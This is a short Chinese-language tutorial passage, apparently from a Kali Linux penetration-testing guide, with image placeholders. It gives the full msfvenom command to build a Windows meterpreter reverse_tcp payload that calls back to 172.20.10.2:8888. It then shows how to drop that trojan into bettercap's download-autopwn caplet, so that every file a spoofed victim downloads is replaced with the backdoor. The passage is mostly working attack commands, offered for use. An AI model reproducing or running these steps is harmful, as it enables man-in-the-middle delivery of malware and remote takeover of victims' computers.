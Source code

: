 ![img](./assets/51232bbf90fd449a9b407a185db619c0.png)

使用 msf 生成一个 payload 替换掉 caplets 中的文件。命令：**root@kali:/usr/share/bettercap/caplets/download-autopwn/windows# msfvenom -p windows/meterpreter/reverse_tcp lhost=172.20.10.2 lport=8888 -f exe -o payload.exe** 

![img](./assets/5e4578833d0440ef8087f7b3e20cfc45.png)

download-autopwn 文件可以保存着一些脚本，使用 mv 把生成的木马后门放进去，然后启用这个文件。当被欺骗者下载任意文件时都会被替换成我们的后门。

使用 Download－autopwn 模块。命令：root@kali:~# bettercap -caplet download-autopwn/download-autopwn ，或者 进入 bettercap 执行 download-autopwn

